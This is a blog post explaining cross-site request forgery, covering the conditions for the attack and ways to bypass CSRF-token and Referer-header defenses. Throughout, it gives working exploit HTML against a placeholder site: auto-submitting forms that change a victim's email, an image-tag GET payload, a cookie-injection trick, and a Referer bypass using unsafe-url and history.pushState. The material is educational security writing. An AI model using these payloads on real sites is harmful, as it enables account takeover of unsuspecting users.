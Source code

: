 ```yaml
---
layout: blog
type: blog
title: Web Application Security - Cross-Site Request Forgery
permalink: blog/web-csrf
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - csrf tokens
  - referrer policy
  - origin policy
---
```


Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

# Requirements

For a CSRF attack to be possible, three key conditions must be in place:

- __A relevant action.__ There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).
- __Cookie-based session handling.__ Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.
- __No unpredictable request parameters.__ The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.

# Exploit CSRF with no defenses

Construct a web page containing the following HTML
```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```

# Delivering CSRF Exploits

The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a web site that they control, and then induce victims to visit that web site. This might be done by feeding the user a link to the web site, via an email or social media message. Or if the attack is placed into a popular web site (for example, in a user comment), they might just wait for users to visit the web site. 

Some simple CSRF exploits employ the GET method and can be fully self-contained with a single URL on the vulnerable web site. In this situation, the attacker may not need to employ an external site, and can directly feed victims a malicious URL on the vulnerable domain. 

# CSRF Token Vulnerabilities 

## Validation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used. 
```html
<html>
  <body>
    <img src="https://vulnerable-website.com/email/change?email=nullcell%40user.net">
  </body>
```

## Validation of CSRF token depends on token being present

 Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack

## CSRF token is not tied to the user session

 Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack. 

Note: The tokens could be single use so drop requests

## CSRF token is tied to a non-session cookie

 In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```txt
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
	  <input type="hidden" name="csrf" value="<csrf-token>" />
    </form>
    <img src="<cookie-setting-url>" onerror="document.forms[0].submit()">
  </body>
```

Note:
When it is needed to make multiple requests on a vulnerable site from a single html form, make use of `<img>` tag so it makes the request but errors out since it doesn't recieve an image then continues with the rest of the html.

The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. 

## CSRF token is simply duplicated in a cookie

Some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state

The attacker can again perform a CSRF attack if the web site contains any cookie setting functionality.

# Referrer-based Defenses Vulnerabilities

## Validation of Referrer depends on header being present

An attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:
```html
<meta name="referrer" content="never"> 
```

## Validation of Referrer can be circumvented

 Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:
 `http://vulnerable-website.com.attacker-website.com/csrf-attack`
Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:
`http://attacker-website.com/csrf-attack?vulnerable-website.com`

Note: 
 Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the Referer header by default.

You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set (note that Referrer is spelled correctly in this case, just to make sure you're paying attention!). This ensures that the full URL will be sent, including the query string. 

```html
<html>
  <body>
    <meta name="referrer" content="unsafe-url">
    <form action="https://vulnerable-website.com/email/change">
      <input type="hidden" name="email" value="pwned@evil-user.net"/>
    </form>
    <script>
      history.pushState("","","/?vulnerable-website.com")
      document.forms[0].submit();
    </script>
  </body>
```

Note:
`history.pushState()` add the third argument to the `Referer` Header if `unsafe-url` policy is set
